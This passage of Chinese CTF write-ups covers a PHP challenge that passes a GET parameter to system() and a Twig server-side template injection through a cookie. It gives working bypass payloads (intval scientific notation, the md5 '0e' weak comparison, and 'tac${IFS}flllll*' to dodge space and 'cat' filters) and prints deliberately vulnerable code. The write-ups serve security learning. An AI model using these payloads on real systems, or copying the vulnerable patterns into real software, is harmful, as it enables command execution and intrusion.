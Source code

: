 ```php
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

第一关

```
num=2e4
intval会解析科学计数法，且当解析字符串时会保留第一个字符前的数字
```

第二关

```
$md5==md5($md5)
这里是==弱比较，
md5=0e215962017
这样0==0(true)
```

第三关

```
过滤了空格，cat
get_flag=tac${IFS}flllll*
```

## [BJDCTF2020]Cookie is so stable

发现输入什么都会回显输入的数据,这时候考虑是不是模板注入了。根据hint，注入点存在于cookie中

```
{{7*'7'}} 回显7777777 ==> Jinja2
{{7*'7'}} 回显49 ==> Twig 
```

```php
include 'vendor/twig/twig/lib/Twig/Autoloader.php';
Twig_Autoloader::register();
$loader = new Twig_Loader_String();
$twig = new Twig_Environment($loader);
try{
	$result = @$twig->render($_COOKIE['user']);
	echo "  Hello $result";
	} catch (Exception $e){
		echo "  What do you want to do?";
}
```
